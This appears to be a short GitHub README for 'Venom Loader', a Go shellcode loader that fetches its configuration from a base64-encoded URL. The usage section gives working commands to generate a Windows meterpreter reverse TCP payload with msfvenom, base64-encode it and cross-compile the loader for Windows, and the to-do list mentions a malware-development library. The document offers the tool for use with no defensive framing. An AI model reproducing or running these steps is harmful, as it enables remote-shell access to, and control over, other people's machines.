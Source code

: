 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples
Modify the main.go and instr file to suit your situation before doing any of the below.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
export GOOS=windows;export GOARCH=amd64 #Only if compiling on linux that is
go build
```
At this point the loader as well as a basic payload should be ready.
## To-Do

- Make a builder script that simplifys creation of the JSON and binary.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.

